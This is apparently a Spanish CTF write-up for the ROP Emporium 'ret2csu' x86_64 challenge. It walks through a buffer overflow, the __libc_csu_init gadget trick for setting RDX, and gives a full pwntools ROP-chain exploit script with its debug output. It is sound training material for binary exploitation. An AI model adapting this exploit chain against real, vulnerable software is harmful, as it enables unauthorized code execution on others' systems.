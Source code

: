 # 8. Ret2csu (x86\_64)

Este ejercicio es como el [callme](3.-callme-x86_64.md) pero sin tener que hacer saltos a 3 funciones. Simplemente hay que hacer un salto a la función `ret2win`. Vamos a intentarlo para ver cual es el muro que tenemos ahora:

```c
undefined8 main(void)
{
    pwnme();
    return 0;
}
```

```c
void pwnme(void)
{
    undefined array[32];

    setvbuf(stdout, (char *)0x0, 2, 0);
    puts("ret2csu by ROP Emporium");
    puts("x86_64\n");
    memset(array, 0, 0x20);
    puts(
        "Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.\n"
    );
    printf("=> ");
    read(0, array, 0x200); // Buffer Overflow
    puts("Thank you!");
    return;
}

```

Como podemos ver la función `pwnme` tiene un buffer overflow con mucha capacidad, lo cual nos da la capacidad de hacer una rop chain larga. Vamos a observar ahora la función `ret2win`:

```c
void ret2win(long param_1, long param_2, long param_3)
{
. . .
    if (((param_1 != -0x2152411021524111) || (param_2 != -0x3501454135014542)) || (param_3 != -0x2ff20ff22ff20ff3)) {
        puts("Incorrect parameters");
        exit(1);
    }
}
. . .
```

Como en el [callme](3.-callme-x86_64.md), este ejercicio pide 3 argumentos para que nos imprima la flag (`RDI`, `RSI` y `RDX`):

Vamos a buscar gadgets para poner esos registros con los valores que necesitamos:

```c
0x004006a3 : pop rdi ; ret // RDI
0x004006a1 : pop rsi ; pop r15 ; ret // RSI
```

Hay un problema, no hay ningún `pop rdx`. Aquí está la nueva dificultad del ejercicio. Para solucionarlo tenemos que, tal como da a entender el nombre del ejercicio, usar la función `__libc_csu_init`, que se genera automáticamente al compilar un programa y siempre mete un par de gadgets bastante útiles: uno para hacer varios `pop` seguidos y otro que hace `mov rdx, r15; mov rsi, r14; mov edi, r13d; call [r12+rbx*8]`. Con esto podemos setear `rdx` aunque no haya un `pop rdx` normal, y así pasar todos los argumentos que necesitamos. Vamos a usar la siguiente examen como referencia:

<figure><img src="../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

Como podemos ver podemos llamar primero al gadget 1 para setear varios registros que luego en el gadget 2 lo moverán a los registros que nos hacían falta. Tenemos que tener en cuenta que en el gadget 2 hay un call así que tenemos que intentar que esto:

```c
400689:	41 ff 14 dc          	call   QWORD PTR [r12+rbx*8]
```

Da como resultado una función que nos haga un return y que no nos altere ningún registro importante. Otra cosa a tener en cuenta es que en el gadget 1 hay que poner que el `rbx` sea el valor de `rbp - 1` ya que el gadget tiene estas lineas:

```c
  400691:	48 39 dd             	cmp    rbp,rbx
  400694:	75 ea                	jne    400680 <__libc_csu_init+0x40>
```

Entonces si no se cumple eso hará un salto a otra función y no queremos eso. Tenemos que tener en cuenta también que en la segunda pasada se volverán a hacer los pops así que tenemos que popear 7 veces algo, 6 veces por los `pop` y 1 vez por el `add`. Ahora que sabemos esto podemos preparar el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./ret2csu")
libc = ELF("./libret2csu.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b 400696
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    
    pop_rdi = 0x004006a3 # pop rdi ; ret
    mov_long = 0x400680
    pop_rbx_rbp_r12_r13_r14_r15 = 0x40069a
    pop_rsi_r15 = 0x004006a1 # pop rsi ; pop r15 ; ret
    
    parametros = [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d]
    
    # 400680:	4c 89 fa             	mov    rdx,r15
    # 400683:	4c 89 f6             	mov    rsi,r14
    # 400686:	44 89 ef             	mov    edi,r13d
    # 400689:	41 ff 14 dc          	call   QWORD PTR [r12+rbx*8]
    # 40068d:	48 83 c3 01          	add    rbx,0x1
    # 400691:	48 39 dd             	cmp    rbp,rbx
    # 400694:	75 ea                	jne    400680 <__libc_csu_init+0x40>
    # 400696:	48 83 c4 08          	add    rsp,0x8
    # 40069a:	5b                   	pop    rbx
    # 40069b:	5d                   	pop    rbp
    # 40069c:	41 5c                	pop    r12
    # 40069e:	41 5d                	pop    r13
    # 4006a0:	41 5e                	pop    r14
    # 4006a2:	41 5f                	pop    r15
    # 4006a4:	c3                   	ret
    
    # Contents of section .init_array:
    # 600df0 00064000 00000000

    offset = 40
    
    payload = flat({
        offset: [
            pop_rbx_rbp_r12_r13_r14_r15, 0, 1, 0x600df0, 0x0, parametros[1], parametros[2],
            mov_long, 0, 0, 0, 0, 0, 0, 0,
            pop_rdi, parametros[0],
            pop_rsi_r15, parametros[1], 0,
            exe.plt['ret2win'],
        ]
    })


    io.sendlineafter(b'>', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```

```c
[+] Starting local process '/home/ub1cu0/Desktop/ropEmporium/ret2csu/ret2csu': pid 822203
[DEBUG] Received 0x8c bytes:
    b'ret2csu by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.\n'
    b'\n'
    b'> '
[DEBUG] Sent 0xd1 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  9a 06 40 00  00 00 00 00  │iaaa│jaaa│··@·│····│
    00000030  00 00 00 00  00 00 00 00  01 00 00 00  00 00 00 00  │····│····│····│····│
    00000040  f0 0d 60 00  00 00 00 00  00 00 00 00  00 00 00 00  │··`·│····│····│····│
    00000050  be ba fe ca  be ba fe ca  0d f0 0d d0  0d f0 0d d0  │····│····│····│····│
    00000060  80 06 40 00  00 00 00 00  00 00 00 00  00 00 00 00  │··@·│····│····│····│
    00000070  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000a0  a3 06 40 00  00 00 00 00  ef be ad de  ef be ad de  │··@·│····│····│····│
    000000b0  a1 06 40 00  00 00 00 00  be ba fe ca  be ba fe ca  │··@·│····│····│····│
    000000c0  00 00 00 00  00 00 00 00  10 05 40 00  00 00 00 00  │····│····│··@·│····│
    000000d0  0a                                                  │·│
    000000d1
[*] Switching to interactive mode
 [*] Process '/home/ub1cu0/Desktop/ropEmporium/ret2csu/ret2csu' stopped with exit code 0 (pid 822203)
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Funciona! Gracias por leer!
